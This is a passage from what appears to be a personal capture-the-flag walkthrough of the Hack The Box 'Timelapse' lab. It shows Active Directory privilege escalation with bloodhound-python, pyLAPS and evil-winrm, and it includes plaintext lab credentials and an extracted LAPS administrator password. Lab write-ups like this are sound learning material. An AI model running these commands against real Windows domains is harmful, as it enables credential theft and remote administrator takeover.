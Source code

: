 ```
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
## BloodHound
- Now we have credentials we can grab files from target for analysis:
	```bash
bloodhound-python --dns-tcp -ns 10.10.11.152 -d timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -c all
```
- We mark `svc_deploy` and `legacyy` as owned.
	- In `svc_deploy` we go to Outbound Object Control > Group Delegated Object Control
		- ![[Pasted image 20250421144755.png]]
			- We see that it is a member of LAPS_Readers group which can read the LAPS password
				- I  tried the exploit from the Windows route which required PowerSploit but AV exists so I couldn't execute the command.
					- Maybe with metasploit.
- Used pyLAPS python file to grab the LAPS password:
	```bash
python3 pyLAPS.py --action get -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV'

---OUTPUT---
                 __    ___    ____  _____
    ____  __  __/ /   /   |  / __ \/ ___/
   / __ \/ / / / /   / /| | / /_/ /\__ \   
  / /_/ / /_/ / /___/ ___ |/ ____/___/ /   
 / .___/\__, /_____/_/  |_/_/    /____/    v1.2
/_/    /____/           @podalirius_           
    
[+] Extracting LAPS passwords of all computers ... 
  | DC01$                : 6112yW,$r%+.6b4&a+)&.uF#
[+] All done!
```
- Then logged in using winrm (note i just tested administrator but as svc_deploy we can pass `net users` to see the users):
	```bash
evil-winrm -S -u 'administrator' -p '6112yW,$r%+.6b4&a+)&.uF#' -i 10.10.11.152

---OUTPUT---
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                       
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                         
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```
- The root file wasn't in the Administrator's Desktop but the user TRC's Desktop.
- **ALTERNATE METHOD**
- We can find out we can exploit LAPS by checking svc_deploy's groups
	```bash
net user svc_deploy

---OUTPUT-RELEVANT---
Global Group memberships     *LAPS_Readers         *Domain Users
```
	- We see `svc_deploy` is part of LAPS_Readers group.